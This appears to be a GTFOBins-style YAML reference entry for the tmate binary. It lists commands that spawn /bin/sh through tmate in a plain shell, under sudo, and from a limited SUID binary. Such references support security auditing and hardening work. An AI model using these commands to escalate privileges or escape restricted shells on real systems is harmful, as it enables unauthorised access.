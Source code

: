 ```yaml
---
functions:
  shell:
    - code: tmate -c /bin/sh
  sudo:
    - code: sudo tmate -c /bin/sh
  limited-suid:
    - code: ./tmate -c /bin/sh
---
```

